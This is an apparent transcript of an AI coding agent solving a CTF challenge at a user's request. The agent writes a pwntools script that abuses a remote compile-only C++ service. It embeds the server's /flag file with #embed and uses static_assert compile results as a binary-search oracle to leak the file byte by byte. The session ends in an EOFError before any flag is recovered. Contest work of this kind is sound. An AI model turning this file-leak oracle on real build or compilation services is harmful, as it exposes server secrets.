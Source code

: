 # Session rollout-2025-10-17T15-39-26-0199f453-f33d-78e3-8bc1-efa54a58bb72.jsonl

## Session Metadata

- **id:** 0199f453-f33d-78e3-8bc1-efa54a58bb72
- **timestamp:** 2025-10-17T22:39:26.525Z
- **cwd:** /Users/zzh1996/ctf/geekgame2025
- **originator:** codex_cli_rs
- **cli_version:** 0.47.0
- **source:** cli

## Turn 1

**User**

_Environment context_

- **cwd:** `/Users/zzh1996/ctf/geekgame2025`
- **approval_policy:** `on-request`
- **sandbox_mode:** `workspace-write`
- **network_access:** `restricted`
- **shell:** `zsh`

使用 C++26 的特性解一下 wardenpp/app.py 这道题，阶梯脚本写在 wardenpp/solve.py 里面，用 pwntools 跟 prob07.geekgame.pku.edu.cn:10007 交互

**Assistant**

_Interrupted. No assistant reply in this turn._

<details>
<summary>Show timeline</summary>

#### Timeline

**User message**

使用 C++26 的特性解一下 wardenpp/app.py 这道题，阶梯脚本写在 wardenpp/solve.py 里面，用 pwntools 跟 prob07.geekgame.pku.edu.cn:10007 交互

**Context Update**

- Timestamp: 2025-10-17T22:40:35.803000+00:00
- cwd: /Users/zzh1996/ctf/geekgame2025
- approval_policy: on-request
- model: gpt-5-codex
- effort: high
- summary: auto
- sandbox_mode: workspace-write

**Assistant Thinking**

> **Preparing to gather repository info**

##### shell

**Command**

```bash
ls
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
未标题-1.png
token.priv
token.pub
tutorial-signin.gif
tutorial-signin.png
wardenpp
wardenpp.zip
yolov12l.pt
```

- Exit code: 0
- Duration: 0.3 s


**Assistant Thinking**

> **Inspecting wardenpp directory**

##### shell

**Command**

```bash
ls wardenpp
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
app.py
Dockerfile
```

- Exit code: 0
- Duration: 0.3 s


**Assistant Thinking**

> **Checking for missing solve.py file**

##### shell

**Command**

```bash
sed -n '1,200p' app.py
```

- Workdir: `/Users/zzh1996/ctf/geekgame2025/wardenpp`
- Timeout: 120.00 s

**Output**

```bash
import sys
import re
import os
import subprocess
import tempfile
... (53 lines truncated) ...
        print("❌ Code too long! Limit is 4096 characters.")
        sys.stdout.flush()
        continue
    compile_check(code)
```

- Exit code: 0
- Duration: 0.3 s


**Assistant Thinking**

> **Analyzing compile-only C++ flag leak challenge**  
>   
> I’m dissecting how to extract a flag from a remote service that only compiles C++ code without running it, relying on new C++26 features like `#embed` or `std::embed` to include file contents at compile time; since output is suppressed except for success/failure, I’m considering a binary search approach with `static_assert` to leak the flag character-by-character through compile success or failure signals. I'll plan to implement a pwntools script that interacts with the remote server to perform these guesses and confirm hypotheses about compiler support and feature availability.

**Assistant Thinking**

> **Detailing compile-time embedding and interaction strategy**  
>   
> I’m piecing together how to confirm and exploit the remote compiler’s support for C++26 embedding features like `#embed` or `std::embed`, since the service compiles but doesn’t run code and only returns compile success or failure. I’m exploring how to craft a script that interactively queries flag characters using binary search via `static_assert`, while handling unknown compiler default standards and limited ability to pass flags. I’m also considering initializing `char` arrays with embedded file bytes and will plan to verify feature availability by sending test code, then design the final solution script accordingly.

##### update_plan

**Plan**

1. 🔄 Inspect the challenge interface and figure out how to probe /flag via C++26 compile-time features
2. ⏳ Design a yes/no compile-time query template to recover flag characters
3. ⏳ Implement wardenpp/solve.py ladder script using pwntools to automate the recovery

**Output**

```text
Plan updated
```


**Assistant Thinking**

> **Planning remote connection test**

##### shell

**Command**

```bash
python3 - <<'PY'
from pwn import remote
r = remote('prob07.geekgame.pku.edu.cn', 10007)
for _ in range(5):
    line = r.recvline(timeout=1)
    if not line:
        break
    print(line.decode(), end='')
r.close()
PY
```

- Workdir: `.`
- Timeout: 120.00 s

**Output**

```bash
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
ModuleNotFoundError: No module named 'pwn'
```

- Exit code: 1
- Duration: 0.3 s


**Assistant Thinking**

> **Considering pwntools installation limitations**

> **Turn aborted:** interrupted

</details>

## Turn 2

**User**

我刚帮你装了 pwntools。请你把要执行的代码写进 solve.py 然后运行

**Assistant**

_Interrupted. No assistant reply in this turn._

<details>
<summary>Show timeline</summary>

#### Timeline

**User message**

我刚帮你装了 pwntools。请你把要执行的代码写进 solve.py 然后运行

**Context Update**

- Timestamp: 2025-10-17T22:43:29.474000+00:00
- cwd: /Users/zzh1996/ctf/geekgame2025
- approval_policy: on-request
- model: gpt-5-codex
- effort: high
- summary: auto
- sandbox_mode: workspace-write

**Assistant Thinking**

> **Designing compile-time flag extraction**

**Assistant Thinking**

> **Evaluating compile-time file embedding**  
>   
> I'm exploring how to embed the /flag file into C++ code at compile time to check its contents using static_assert and #embed directive. The plan involves sending ladder queries via a persistent pwntools script that tests each flag character by compiling code snippets which pass only if the embedded byte matches the guess. This hinges on remote support for C++26’s #embed feature, letting me represent the flag file as a constexpr byte array to extract it bit by bit through compile success or failure responses.

##### apply_patch

**Patch**

```diff
*** Begin Patch
*** Add File: wardenpp/solve.py
+from __future__ import annotations
+
+from pwn import remote
+
+HOST = "prob07.geekgame.pku.edu.cn"
+PORT = 10007
+
+
+def main() -> None:
+    r = remote(HOST, PORT)
+    try:
+        # Drain the banner printed by the service.
+        banner = r.recvuntil(b"Good luck, brave hacker!\n")
+        print(banner.decode(), end="")
+        r.recvline()  # consume the P.S. line
+
+        code = r"""
+constexpr unsigned char flag[] = {
+#embed "/flag"
+};
+
+static_assert(flag[0] == 'f');
+
+int main() {}
+""".strip("\n")
+        r.send(code.encode() + b"\nEND\n")
+        while True:
+            line = r.recvline(timeout=1)
+            if not line:
+                break
+            print(line.decode(), end="")
+    finally:
+        r.close()
+
+
+if __name__ == "__main__":
+    main()
*** End Patch
```

Status: **completed**

<details>
<summary>Output</summary>

```text
Success. Updated the following files:
A wardenpp/solve.py

```
</details>

- Exit code: 0
- Duration: 0 s


**Assistant Thinking**

> **Preparing to run script on demand**

##### shell

**Command**

```bash
python3 solve.py
```

- Workdir: `/Users/zzh1996/ctf/geekgame2025/wardenpp`
- Timeout: 120.00 s

**Output**

```bash
Traceback (most recent call last):
  File "/Users/zzh1996/ctf/geekgame2025/wardenpp/solve.py", line 3, in <module>
    from pwn import remote
ModuleNotFoundError: No module named 'pwn'
```

- Exit code: 1
- Duration: 0.3 s


**Assistant Thinking**

> **Verifying Python environment and package installation**

##### shell

**Command**

```bash
python3 -m pip show pwntools
```

- Workdir: `/Users/zzh1996/ctf/geekgame2025`
- Timeout: 120.00 s

**Output**

```bash
WARNING: The directory '/Users/zzh1996/Library/Caches/pip' or its parent directory is not owned or is not writable by the current user. The cache has been disabled. Check the permissions and owner of that directory. If executing pip with sudo, you should use sudo's -H flag.
WARNING: Package(s) not found: pwntools
```

- Exit code: 1
- Duration: 0.7 s


**Assistant Thinking**

> **Considering Python environment and pwntools installation**

##### shell

**Command**

```bash
python -V
```

- Workdir: `/Users/zzh1996/ctf/geekgame2025`
- Timeout: 120.00 s

**Output**

```bash
Python 2.7.17
```

- Exit code: 0
- Duration: 0.3 s


**Assistant Thinking**

> **Checking pwntools accessibility**

##### shell

**Command**

```bash
python3 -V
```

- Workdir: `/Users/zzh1996/ctf/geekgame2025`
- Timeout: 120.00 s

**Output**

```bash
Python 3.13.0
```

- Exit code: 0
- Duration: 0.3 s


**Assistant Thinking**

> **Checking Python version for pwntools**

##### shell

**Command**

```bash
python3.11 -V
```

- Workdir: `/Users/zzh1996/ctf/geekgame2025`
- Timeout: 120.00 s

**Output**

```bash
Python 3.11.10
```

- Exit code: 0
- Duration: 0.4 s


**Assistant Thinking**

> **Checking module installation for python3.11**

##### shell

**Command**

```bash
python3.11 -m pip show pwntools
```

- Workdir: `/Users/zzh1996/ctf/geekgame2025`
- Timeout: 120.00 s

**Output**

```bash
WARNING: The directory '/Users/zzh1996/Library/Caches/pip' or its parent directory is not owned or is not writable by the current user. The cache has been disabled. Check the permissions and owner of that directory. If executing pip with sudo, you should use sudo's -H flag.
Name: pwntools
Version: 4.11.0
Summary: Pwntools CTF framework and exploit development library.
Home-page: https://pwntools.com
... (2 lines truncated) ...
License: Mostly MIT, some GPL/BSD, see LICENSE-pwntools.txt
Location: /usr/local/lib/python3.11/site-packages
Requires: capstone, colored-traceback, intervaltree, mako, packaging, paramiko, pip, psutil, pyelftools, pygments, pyserial, pysocks, python-dateutil, requests, ropgadget, rpyc, six, sortedcontainers, unicorn
Required-by: 
```

- Exit code: 0
- Duration: 0.9 s


> **Turn aborted:** interrupted

</details>

## Turn 3

**User**

你没有用 .venv 里面的 python

**Assistant**

_Interrupted. No assistant reply in this turn._

<details>
<summary>Show timeline</summary>

#### Timeline

**User message**

你没有用 .venv 里面的 python

**Context Update**

- Timestamp: 2025-10-17T22:45:35.137000+00:00
- cwd: /Users/zzh1996/ctf/geekgame2025
- approval_policy: on-request
- model: gpt-5-codex
- effort: high
- summary: auto
- sandbox_mode: workspace-write

**Assistant Thinking**

> **Locating virtual environment .venv**

##### shell

**Command**

```bash
ls -a
```

- Workdir: `/Users/zzh1996/ctf/geekgame2025`
- Timeout: 120.00 s

**Output**

```bash
未标题-1.png
.
..
.mypy_cache
.venv
... (4 lines truncated) ...
tutorial-signin.png
wardenpp
wardenpp.zip
yolov12l.pt
```

- Exit code: 0
- Duration: 0.3 s


**Assistant Thinking**

> **Designing compile-time flag extraction**  
>   
> I'm planning to use C++26 features like `#embed` with `static_assert` to binary search each flag character via compile success/fail responses. I’ll script interactions using pwntools, maintaining a single connection for efficiency, and ensure the solve script runs inside the `.venv` Python environment to access needed modules. The approach needs to handle code size limits and lack of compile flag control, so careful snippet crafting and validation are key.

##### shell

**Command**

```bash
.venv/bin/python -m pip show pwntools
```

- Workdir: `/Users/zzh1996/ctf/geekgame2025`
- Timeout: 120.00 s

**Output**

```bash
WARNING: The directory '/Users/zzh1996/Library/Caches/pip' or its parent directory is not owned or is not writable by the current user. The cache has been disabled. Check the permissions and owner of that directory. If executing pip with sudo, you should use sudo's -H flag.
Name: pwntools
Version: 4.15.0
Summary: Pwntools CTF framework and exploit development library.
Home-page: https://pwntools.com
... (2 lines truncated) ...
License: Mostly MIT, some GPL/BSD, see LICENSE-pwntools.txt
Location: /Users/zzh1996/ctf/geekgame2025/.venv/lib/python3.14/site-packages
Requires: capstone, colored_traceback, intervaltree, mako, packaging, paramiko, pip, psutil, pyelftools, pygments, pyserial, pysocks, python-dateutil, requests, ropgadget, rpyc, six, sortedcontainers, unicorn, unix-ar, zstandard
Required-by: 
```

- Exit code: 0
- Duration: 0.5 s


**Assistant Thinking**

> **Detailing static_assert compile checks**  
>   
> I’m working through how to use `static_assert` with a `constexpr unsigned char flag[]` initialized by `#embed "/flag"` to evaluate expressions at compile time. This involves sending code snippets over a persistent connection, reading until a specific prompt, and implementing binary searches for both the flag length and character values while carefully handling the interaction protocol. Now I’ll refine the script plan to connect once, adapt reads to the challenge’s output, and update `solve.py` with this logic.

##### update_plan

**Plan**

1. ✅ Inspect the challenge interface and figure out how to probe /flag via C++26 compile-time features
2. 🔄 Design a yes/no compile-time query template to recover flag characters
3. ⏳ Implement wardenpp/solve.py ladder script using pwntools to automate the recovery

**Output**

```text
Plan updated
```


**Assistant Thinking**

> **Designing robust compile-and-query script**  
>   
> I'm working out the details of a C++ static_assert checking script that queries flag bytes over a connection. I want to carefully handle constant expressions, line reading, and response synchronization to avoid leftover lines breaking the next query. I'll also implement binary searching flag size and byte values while managing connection flushing and response parsing efficiently. This careful design ensures minimal output clutter and reliable flag extraction over up to 400 queries.

**Assistant Thinking**

> **Implementing connection handling and binary search logic**  
>   
> I'm finalizing the connection setup to read the initial banner safely and designing the binary search functions to find the flag length and each byte efficiently while staying under query limits. I’m making sure that message draining avoids blocking and leftover lines don’t interfere, and planning careful query count management to keep the script reliable and performant.

##### apply_patch

**Patch**

```diff
*** Begin Patch
*** Update File: wardenpp/solve.py
@@
-from __future__ import annotations
-
-from pwn import remote
-
-HOST = "prob07.geekgame.pku.edu.cn"
-PORT = 10007
-
-
-def main() -> None:
-    r = remote(HOST, PORT)
-    try:
-        # Drain the banner printed by the service.
-        banner = r.recvuntil(b"Good luck, brave hacker!\n")
-        print(banner.decode(), end="")
-        r.recvline()  # consume the P.S. line
-
-        code = r"""
-constexpr unsigned char flag[] = {
-#embed "/flag"
-};
-
-static_assert(flag[0] == 'f');
-
-int main() {}
-""".strip("\n")
-        r.send(code.encode() + b"\nEND\n")
-        while True:
-            line = r.recvline(timeout=1)
-            if not line:
-                break
-            print(line.decode(), end="")
-    finally:
-        r.close()
-
-
-if __name__ == "__main__":
-    main()
+from __future__ import annotations
+
+from dataclasses import dataclass
+
+from pwn import remote
+
+HOST = "prob07.geekgame.pku.edu.cn"
+PORT = 10007
+
+SUCCESS_PREFIX = "✅".encode()
+FAIL_PREFIX = "❌".encode()
+
+
+@dataclass
+class CompileOracle:
+    conn: remote
+
+    def _send_code(self, code: str) -> None:
+        payload = code.rstrip("\n") + "\nEND\n"
+        self.conn.send(payload.encode())
+
+    def _drain_trailing(self) -> None:
+        while True:
+            chunk = self.conn.recv(timeout=0.01)
+            if not chunk:
+                break
+
+    def check(self, predicate: str) -> bool:
+        code = f"""constexpr unsigned char flag[] = {{
+#embed "/flag"
+}};
+static_assert({predicate});
+int main(){{return 0;}}
+"""
+        self._send_code(code)
+
+        while True:
+            line = self.conn.recvline()
+            if not line:
+                raise EOFError("connection closed while waiting for verdict")
+            if line.startswith(SUCCESS_PREFIX):
+                self._drain_trailing()
+                return True
+            if line.startswith(FAIL_PREFIX):
+                self._drain_trailing()
+                return False
+
+
+def recv_banner(conn: remote) -> str:
+    banner = conn.recvuntil(b"P.S Flag is at /flag on the server :)\n", drop=False)
+    leftover = conn.recv(timeout=0.05)
+    return (banner + leftover).decode(errors="replace")
+
+
+def find_flag_length(oracle: CompileOracle, upper_bound: int = 512) -> int:
+    low, high = 0, upper_bound
+    while low < high:
+        mid = (low + high + 1) // 2
+        if oracle.check(f"(sizeof(flag) >= {mid})"):
+            low = mid
+        else:
+            high = mid - 1
+    if not oracle.check(f"(sizeof(flag) == {low})"):
+        raise RuntimeError("failed to confirm flag length")
+    return low
+
+
+def recover_byte(oracle: CompileOracle, index: int) -> int:
+    low, high = 0, 255
+    while low < high:
+        mid = (low + high + 1) // 2
+        if oracle.check(f"(flag[{index}] >= {mid})"):
+            low = mid
+        else:
+            high = mid - 1
+    return low
+
+
+def main() -> None:
+    conn = remote(HOST, PORT)
+    try:
+        banner = recv_banner(conn)
+        print(banner, end="")
+
+        oracle = CompileOracle(conn)
+
+        flag_len = find_flag_length(oracle)
+        print(f"[+] Flag length determined: {flag_len}")
+
+        flag_bytes = []
+        for idx in range(flag_len):
+            value = recover_byte(oracle, idx)
+            flag_bytes.append(value)
+            print(f"[+] flag[{idx}] = {value:3d} ({chr(value)!r})")
+
+        flag = bytes(flag_bytes)
+        print(f"[+] Flag bytes: {flag!r}")
+        try:
+            print("[+] Flag string:", flag.decode())
+        except UnicodeDecodeError:
+            print("[!] Flag is not valid UTF-8; showing repr only.")
+    finally:
+        conn.close()
+
+
+if __name__ == "__main__":
+    main()
*** End Patch
```

Status: **completed**

<details>
<summary>Output</summary>

```text
Success. Updated the following files:
M wardenpp/solve.py

```
</details>

- Exit code: 0
- Duration: 0 s


**Assistant Thinking**

> **Improving recv error handling and query optimization**  
>   
> I'm refining the script to catch `EOFError` during `recv` calls to avoid crashes and ensuring we properly handle empty reads. I'm also rethinking the binary search for flag bytes to cap queries around 8 per character by limiting ASCII range and adding a fallback for higher byte values, balancing query count and correctness. Additionally, I'm considering safer type annotations for the remote connection in the dataclass and adjusting the query upper bound to optimize the search length detection.

##### apply_patch

**Patch**

```diff
*** Begin Patch
*** Update File: wardenpp/solve.py
@@
-from dataclasses import dataclass
-
-from pwn import remote
+from dataclasses import dataclass
+from typing import Any
+
+from pwn import remote
@@
-@dataclass
-class CompileOracle:
-    conn: remote
+@dataclass
+class CompileOracle:
+    conn: Any
@@
-    def _drain_trailing(self) -> None:
+    def _drain_trailing(self) -> None:
         while True:
-            chunk = self.conn.recv(timeout=0.01)
-            if not chunk:
-                break
+            try:
+                chunk = self.conn.recv(timeout=0.01)
+            except EOFError:
+                break
+            if not chunk:
+                break
@@
-def find_flag_length(oracle: CompileOracle, upper_bound: int = 512) -> int:
+def find_flag_length(oracle: CompileOracle, upper_bound: int = 256) -> int:
*** End Patch
```

Status: **completed**

<details>
<summary>Output</summary>

```text
Success. Updated the following files:
M wardenpp/solve.py

```
</details>

- Exit code: 0
- Duration: 0 s


**Assistant Thinking**

> **Updating implementation and plan status**

##### update_plan

**Plan**

1. ✅ Inspect the challenge interface and figure out how to probe /flag via C++26 compile-time features
2. ✅ Design a yes/no compile-time query template to recover flag characters
3. 🔄 Implement wardenpp/solve.py ladder script using pwntools to automate the recovery

**Output**

```text
Plan updated
```


**Assistant Thinking**

> **Preparing to run script using virtual environment**

##### shell

**Command**

```bash
.venv/bin/python wardenpp/solve.py
```

- Workdir: `/Users/zzh1996/ctf/geekgame2025`
- Timeout: 120.00 s

**Output**

```bash
[x] Opening connection to prob07.geekgame.pku.edu.cn on port 10007
[x] Opening connection to prob07.geekgame.pku.edu.cn on port 10007: Trying 115.27.246.20
[+] Opening connection to prob07.geekgame.pku.edu.cn on port 10007: Done
[*] Closed connection to prob07.geekgame.pku.edu.cn port 10007
Traceback (most recent call last):
... (16 lines truncated) ...
    data = self.recv_raw(self.buffer.get_fill_size())
  File "/Users/zzh1996/ctf/geekgame2025/.venv/lib/python3.14/site-packages/pwnlib/tubes/sock.py", line 56, in recv_raw
    raise EOFError
EOFError
```

- Exit code: 1
- Duration: 31.5 s


> **Turn aborted:** interrupted

</details>

